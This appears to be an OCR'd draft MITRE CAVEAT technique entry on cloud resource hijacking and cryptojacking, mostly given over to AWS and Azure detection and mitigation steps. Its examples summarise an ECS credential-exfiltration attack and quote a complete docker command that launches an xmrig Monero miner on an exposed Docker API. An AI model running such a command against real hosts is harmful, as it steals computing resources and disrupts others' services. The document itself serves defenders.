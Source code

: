  
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 Resource Hijacking (version 1.0) 
 
Cloud Service Label: IaaS, PaaS 
 
Description 
Adversaries may leverage the resources of co -opted systems in order to solve resource 
intensive problems which may impact system and/or hosted service availability. 
One common purpose for Resource Hijacking is to validate transactions of 
cryptocurrency networks and earn virtual currency. Adversaries may consume enough 
system resources to negatively impact and/or cause affected machines to become 
unresponsive. Servers and cloud -based systems are common targets because of the 
potential for nearly unlimited resources, but user endpoint systems may also be 
compromised and used for Resource Hijacking and cryptocurrency mining. 
 
Examples 
Name Description 
Rhino Security Labs Blog Post (Pacu Tool) This blog post outlines an attack where an adversary 
starts with a low -level role with access to ECS and then 
finds a task role that has permissions that are elevated 
to what they need. A task definition is edited to be 
malicious and run a command to pull a shell script from 
a server being hosted by the adversary. A shell script 
payload to exfiltrate credentials is created and then 
using the AWS CLI is used to run a command that is 
used to run the malicious task definition, this is done 
using run -task API. The adversary can then receive 
exfiltrated credentials and use them to continue attacks. 
Cryptojacking Campaign On November 24, 2019, a cryptojacking campaign 
exploited Docker API endpoints to mine Monero. This 
was done by deploying an Alpine Linux OS container to 
the exposed Docker API that runs a malicious script 
from the attackers’ servers and installs a Monero m iner. 
Launching a mining container is as easy as docker -H 
192.168.1.7:2376 run --restart unless -stopped --read-
only -m 50M -c 512 bitnn/alpine -xmrig -o POOL01 -o 
POOL02 -u WALLET -p PASSWORD -k 
 
 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 Mitigations 
Mitigation Description 
Limit Resource Requests Clouds have quota systems that can be used to limit the 
damage of an adversary requesting large amount of 
resources in a certain region. 
 
Detection 
Detection Description 
Create Log Metric Filters and Alarms for AWS To create a metric filter and alarm: 
1. Create a metric filter that checks for IAM policy 
changes and the  
2. Create an SNS topic 
3. Create an SNS subscription to the above topic 
4. Create an alarm associated with the filter and SNS 
topic created in steps 1 and 2 respectively 
Monitor Activity in AWS Account Various services in AWS offer logging features that allow for 
detection capabilities. These include CloudFront, CloudTrail, 
CloudWatch, Config, and S3. 
Monitor for Suspicious Activity in Azure Azure AD can generate anomaly reports than can be run on 
a daily basis. Azure AD Identity Protection show current risks 
in its dashboard and provides daily email summary 
notifications. Policies can also be configured to alert to 
specific issues. 
Create Log Metric Filters and Alarms for CloudTrail To create a metric filter and alarm: 
1. Create a filter that checks for CloudTrail changes 
and the specific  
2. Create an SNS topic that the alarm will notify 
3. Create an SNS subscription to the above topic 
4. Create an alarm associated with the filter from 
step 1 and SNS topic in step 2 
Create Activity Log Alerts in Azure To create log activity alerts for deletion in the Azure 
Console: 
1. Navigate to Monitor’ / ‘Alerts 
2. Select Manage alert rules 
3. Click on the Alert Name where Condition contains 
operationName equals 
Microsoft.Network/networkSecurityGroups/securit
yRules/delete 
4. Hover a mouse over Condition to ensure it is set to 
Whenever the Administrative Activity Log “Delete 
Security Rule 
(networkSecurityGroups/securityRules)” has “any” 
level with “any” status and event is initiated by 
“any” 
Create, View, and Manage Activity Alerts in Azure Monitor To create a log alert in the Azure portal: 
1. Select Monitor -> Alerts 
2. Select New alert rule of the Alerts window 
3. Provide information in Define alert condition 
4. Provide details in Define alert details 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 5. Specify action group for new alert rule under 
Action group , or create a new action group with + 
New group 
6. Select Yes for the Enable rule upon creation 
option 
7. Select Create alert rule 
 
To view and manage alerts: 
1. Select Monitor -> Alerts -> Manage alert rules 
2. Select the rule you want to modify and double -
click to edit the rule options 
3. Click Save 
Azure Resource Manager Templates Azure Resource Manager templates in the format of JSON 
files that can be used to configure metric alerts in Azure 
Monitor. These templates can be used for simple static and 
dynamic threshold metric alerts, availability tests, and 
monitoring multiple resour ces. 
Enable CloudTrail across all regions in AWS To enable CloudTrail across all regions: 
1. Sign into the AWS Management Console and open 
the CloudTrail console 
2. Click on Trails 
3. Set necessary Trails to All option in the I column 
4. Click on a trail via the link Name column 
5. Set Logging to ON 
6. Set Apply trail to all regions to Yes 
Configure log profile to capture activity logs for all regions in 
Azure To set up activity logs for all regions: 
1. Navigate to Azure console 
2. Go to Activity log 
3. Select Export 
4. Select Subscription 
5. Check Select all in Regions 
6. Select Save 
Monitoring for Regional Activity Tools like Splunk or even CloudSploit have the ability to 
alert based on region and ingest CloudTrail logs. In 
CloudSploit, a plugin called EC2 Max Count can be 
configured to alert after a certain threshold of EC2 
instances is met. Real -Time Events service is another 
feature of CloudSploit that allows alerts for activity in 
unused regions. 
 
 
 
 
References 
 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 1. https://medium.com/@riccardo.ancarani94/attacking -docker -exposed -api-
3e01ffc3c124 . Accessed July 14, 2020. 
 